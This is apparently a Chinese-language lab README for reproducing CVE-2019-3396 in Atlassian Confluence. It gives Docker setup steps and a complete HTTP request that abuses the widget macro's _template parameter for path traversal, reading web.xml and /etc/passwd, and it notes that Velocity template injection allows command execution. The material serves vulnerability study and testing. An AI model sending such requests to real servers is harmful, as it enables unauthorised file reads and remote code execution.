 # Atlassian Confluence 路径穿越与命令执行漏洞（CVE-2019-3396）

Atlassian Confluence是企业广泛使用的wiki系统，其6.14.2版本前存在一处未授权的目录穿越漏洞，通过该漏洞，攻击者可以读取任意文件，或利用Velocity模板注入执行任意命令。

参考资料：

- https://paper.seebug.org/884/
- https://jira.atlassian.com/browse/CONFSERVER-57974

## 环境搭建

执行如下命令启动一个Confluence Server 6.10.2：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8090`会进入安装引导，选择“Trial installation”，之后会要求填写license key。点击“Get an evaluation license”，去Atlassian官方申请一个Confluence Server的测试证书（不要选择Data Center和Addons）：

![](1.png)

然后点击Next安装即可。这一步小内存VPS可能安装失败或时间较长（建议使用4G内存以上的机器进行安装与测试），请耐心等待。

如果提示填写cluster node，路径填写`/home/confluence`即可：

![](4.png)

后续可能要求你填写数据库账号密码，选择postgres数据库，地址为`db`，账号密码均为`postgres`：

![](5.png)

## 漏洞复现

发送如下数据包，即可读取文件`web.xml`：

```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Referer: http://localhost:8090/pages/resumedraft.action?draftId=786457&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&
Content-Type: application/json; charset=utf-8
Content-Length: 176

{"contentId":"786458","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc6","width":"1000","height":"1000","_template":"../web.xml"}}}
```

![](6.png)

6.12以前的Confluence没有限制文件读取的协议和路径，我们可以使用`file:///etc/passwd`来读取文件，也可以通过`https://...`来加载远程文件。

该文件是一个Velocity模板，我们可以通过模板注入（SSTI）来执行任意命令：

![](7.png)